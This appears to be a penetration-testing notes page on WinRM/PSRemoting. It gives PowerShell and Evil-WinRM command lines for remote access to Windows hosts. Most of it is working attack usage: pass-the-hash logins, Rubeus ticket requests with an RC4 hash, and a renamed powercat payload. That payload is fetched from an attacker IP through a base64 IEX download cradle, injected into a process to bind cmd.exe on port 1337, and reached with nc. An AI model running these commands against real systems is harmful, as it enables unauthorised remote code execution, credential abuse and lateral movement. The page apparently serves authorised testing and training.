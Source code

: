 ```yaml
---
description: Windows Remote Management
---
```


# WinRM / PSRemoting

* [https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/](https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/)
* [https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/](https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons)




## From Windows

* [https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm](https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm)

```
PS > winrm get winrm/config
PS > winrm set winrm/config/client '@{TrustedHosts="*"}'
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred
PS > Enter-PSSession -Session $sess
PS > Copy-Item .\file.txt -Destination "C:\users\administrator\music\" -ToSession $sess
```




## From Linux



### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

Basic syntax:

```
$ evil-winrm -u '[MEGACORP\]snovvcrash' -p 'Passw0rd!' -i 10.10.13.37 -s `pwd` -e `pwd`
$ evil-winrm -u '[MEGACORP\]snovvcrash' -H fc525c9683e8fe067095ba2ddc971889 -i 10.10.13.37 -s `pwd` -e `pwd`
```

{% hint style="info" %}
Always use full username when authenticating as a domain user, because if there're 2 users sharing the same name (a local user and a domain user), say `WORKGROUP\Administrator` and `MEGACORP\Administrator`, and you're trying to authenticate as a domain admin without providing the domain prefix, authentication will fail.
{% endhint %}

Execute a .NET binary:

```
*Evil-WinRM* PS > Invoke-Binary Rubeus.exe "asktgt, /domain:megacorp.local, /user:snovvcrash, /rc4:fc525c9683e8fe067095ba2ddc971889, /nowrap"
```

Spawn interactive bind shell with [powercat.ps1](https://github.com/besimorhino/powercat/blob/master/powercat.ps1) and [Invoke-PSInject.ps1](https://github.com/EmpireProject/PSInject/blob/master/Invoke-PSInject.ps1):

```
$ sed -i s/powercat/pwcat/g pwcat.ps1
$ echo 'powercat -l -p 1337 -e cmd.exe' >> pwcat.ps1
$ echo 'IEX(New-Object Net.WebClient).DownloadString(''http://10.10.13.37/pwcat.ps1'')' | iconv -t UTF-16LE | base64 -w0
*Evil-WinRM* PS > Get-Process
*Evil-WinRM* PS > Invoke-PSInject.ps1
*Evil-WinRM* PS > Invoke-PSInject -ProcId <PID> -PoshCode <BASE64_CMD>
$ rlwrap nc 192.168.1.11 1337
```



### pwsh

```
$ pwsh
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred -Authentication Negotiate
PS > Enter-PSSession -Session $sess
```
